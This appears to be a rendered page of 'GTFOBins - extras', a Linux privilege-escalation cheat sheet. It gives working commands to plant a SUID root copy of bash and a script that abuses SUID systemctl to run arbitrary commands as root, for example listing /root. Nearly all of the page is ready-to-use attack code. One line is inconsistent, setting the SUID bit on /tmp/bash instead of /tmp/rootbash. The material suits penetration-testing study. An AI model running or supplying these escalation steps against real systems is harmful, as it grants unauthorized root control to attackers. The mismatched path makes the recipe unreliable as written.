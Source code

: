 # GTFOBins - extras

Some scripts, utilities, notes... complementary to GTFOBins.

<hr class="sep-both">

## ⚡ Create a root bash

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Version 1: with root executing 2 commands

```bash
$ cp /bin/bash /tmp/rootbash
```

Run **as root** (SUID executable, sudo...) the commands

```bash
$ chown root /tmp/rootbash
$ chmod +s /tmp/bash
```

Run the bash with `-p` and enjoy.

```bash
$ /tmp/rootbash -p
```
</div><div>

...
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script make it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```bash
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>